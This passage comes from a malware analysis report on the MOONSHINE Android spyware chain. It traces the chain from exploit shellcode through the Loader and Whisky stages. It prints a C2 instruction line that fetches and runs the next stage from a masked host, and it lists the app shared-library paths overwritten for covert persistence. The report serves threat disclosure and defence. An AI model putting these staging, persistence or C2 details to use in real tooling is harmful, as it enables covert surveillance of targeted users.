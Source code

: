 Each exploit ran the same shellcode, which downloaded an ARMv7 ELF binary file (which we call the Loader) from hxxp://[MoonshineSite]:5000/dev/loader, and stored the binary in the Facebook app folder as (/data/data/com.facebook.katana/[BinaryName]), where [BinaryName] is a random alphanumeric string. The shellcode then executed the Loader, passing http://[MoonshineSite]:5000/ and /data/data/com.facebook.katana/[BinaryName] as arguments.
We also tried fetching the exploits using an Android User-Agent for Facebook Messenger. In that case, everything was the same, except the Loader was downloaded to the Facebook Messenger app folder (/data/data/com.facebook.orca/[BinaryName]), and this path was passed by the shellcode as the second argument to the Loader.
Android Implant Overview
The MOONSHINE Loader was the first in a series of intermediary staged malware binaries sequentially executed to deliver the ultimate payload: a fully featured Android spyware package called “Scotch” by its developers. Figure 10 provides an overview of the installation process.
MOONSHINE is designed for stealthy rootless operation, by exploiting popular legitimate Android apps with built-in browsers that request sensitive permissions. MOONSHINE obtains persistence by overwriting an infrequently used shared library (.so) file in one of these apps with itself. When a targeted user opens the legitimate app after exploitation, the app loads the shared library into memory, which causes the spyware to activate. While code in subsequent stages of MOONSHINE suggests that it can be deployed against four apps (Facebook, Facebook Messenger, WeChat, and QQ), the exploit site we tested against did not deliver any exploits for WeChat or QQ User-Agent headers.
The ultimate spyware tool deployed by MOONSHINE, Scotch, is a modular Java application which uses the WebSocket protocol to communicate with its C2 server. The Scotch payload itself has limited espionage features, such as obtaining device information and uploading files from the infected device. However, as part of its initial contact with the C2, Scotch downloads additional plugins. During our analysis, we were able to acquire two plugin packages, named “Bourbon.jar” and “IceCube.jar” which added functionality including exfiltrating SMS text messages, address books, and call logs, and spying on the target through their phone’s camera, microphone, and GPS.
Loader Stage
After the MOONSHINE Loader is installed, the Loader POSTs a check-in message to the C2 server using the path: hxxp://[MoonshineSite]:5000/dev/loader/post.
The C2 server response provides instructions to the Loader, including a URL from which to download and execute the next stage of the malware chain (tdu= parameter), as well as a series of files to delete from the app folder (cf= parameter), which may be generated in certain circumstances by different invocations of the Loader. When we POSTed a check-in message to a C2, we received the following instructions:
LD&l=/data/data/com.facebook.katana;rs=0;lf=;tdu=http://[MoonshineSite]:5000/im/lure;tn=.lure;cf=excit,s.r.zip,busybox,install.sh,loader,app-debug.apk,.lure,libNetwork.so,report,;
The instructions cause the Loader to download /im/lure into the Facebook app folder, and execute it. This binary was an ARMv7 ELF binary that the developers refer to as Whisky based on strings in the binary.
Figure 10: Multistage installation of the MOONSHINE spyware kit.
Whisky Stage
Whisky’s first step is to determine which shared library (.so) file should be overwritten by the next stage of MOONSHINE — called “Bourbon” by developers — by determining the current application context from the current working directory (Table 2). If Whisky happens to be running as the root user on the Android device, then the target filename used is /data/local/tmp/libbourbon.so.
If current application is …
Then write to this shared library filename:
com.facebook.katana (Facebook)
/data/data/com.facebook.katana/lib-xzs/libaborthooks.so
com.facebook.orca (Facebook Messenger)
/data/data/com.facebook.orca/lib-xzs/liblog.so
com.tencent.mm (WeChat)
/data/data/com.tencent.mm/app_tbs/core_share/libwebp_base.so
com.tencent.mobileqq (QQ)
/data/data/com.tencent.mobileqq/files/TencentVideoKit/armeabi/libckeygenerator.so
Table 2: Application context to destination filename map.
These destination filenames are chosen intentionally, and act as a method of persistence and covert execution. In the case of Facebook and Facebook Messenger, the shared library files in Table 2 are loaded when the apps start. After determining the destination filename, Whisky extracts Bourbon by following these high level steps:
Determine the size, s, of the encrypted data chunk using the last 4 bytes of the file (Figure 11).
Read an XXTEA encryption key, k, from the 16 bytes preceding s.
Read the MD5 hash, m, of the encrypted data chunk from the 32 bytes preceding k.